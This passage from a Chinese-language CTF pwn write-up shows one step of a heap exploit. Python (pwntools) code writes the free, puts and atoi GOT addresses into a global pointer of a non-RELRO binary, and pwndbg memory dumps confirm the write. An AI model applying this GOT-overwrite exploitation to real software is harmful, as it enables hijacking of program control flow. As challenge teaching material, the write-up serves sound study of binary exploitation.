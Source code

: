 **第四步**：开始将我们的got表地址写入到global[2]存储的地址，也就是0x0000000000602138

```
#由于这里未开启RELRO，故可以将got表进行更改
#取出一些plt表和got表地址
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

payload = 'a'*16 + p64(free_got) + p64(puts_got) + p64(atoi_got)
#向global[2]存储的地址上写入payload
edit(2,len(payload),payload)
```

执行后查看

```
pwndbg> x /20gx 0x602138
0x602138:	0x6161616161616161	0x6161616161616161
0x602148:	0x0000000000602018	0x0000000000602020
0x602158:	0x0000000000602088	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
0x6021b8:	0x0000000000000000	0x0000000000000000
0x6021c8:	0x0000000000000000	0x0000000000000000
```

顺便查看其中一个地址

```
pwndbg> x /20gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007f40196c3a70	0x00007f40196af5d0
0x602028 <fread@got.plt>:	0x00007f40196ae0e0	0x0000000000400786
0x602038 <__stack_chk_fail@got.plt>:	0x0000000000400796	0x00007f40196957b0
0x602048 <alarm@got.plt>:	0x00007f401970b7d0	0x00007f4019660740
0x602058 <fgets@got.plt>:	0x00007f40196ada80	0x00007f4019676ea0
0x602068 <__gmon_start__@got.plt>:	0x00000000004007f6	0x00007f40196c3550
0x602078 <fflush@got.plt>:	0x00007f40196ad750	0x00007f4019676e90
0x602088 <atoi@got.plt>:	0x00007f4019676e70	0x0000000000000000
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000
pwndbg> x /20gx 0x00007f40196c3a70
0x7f40196c3a70 <__GI___libc_free>:	0x8348535554415541	0x33f477058b4828ec
0x7f40196c3a80 <__GI___libc_free+16>:	0x0fc08548008b4800	0xff8548000000d385
0x7f40196c3a90 <__GI___libc_free+32>:	0x8d48f8478b482a74	0x04a8327502a8f077
0x7f40196c3aa0 <__GI___libc_free+48>:	0x74003400793d8d48	0x00002548f089480c
0x7f40196c3ab0 <__GI___libc_free+64>:	0xe8d231388b48fc00	0x28c48348ffffbea4
0x7f40196c3ac0 <__GI___libc_free+80>:	0x66c35d415c415d5b	0x0000000000841f0f
0x7f40196c3ad0 <__GI___libc_free+96>:	0xd2850033f6be158b	0x33f68f053b482e75
0x7f40196c3ae0 <__GI___libc_free+112>:	0x0000003d48257600	0x48f8e083481d7702
0x7f40196c3af0 <__GI___libc_free+128>:	0xf67605894800148d	0x33f65f1589480033
0x7f40196c3b00 <__GI___libc_free+144>:	0x00401f0f08eb9000	0xf04f8b48f8e08348
```
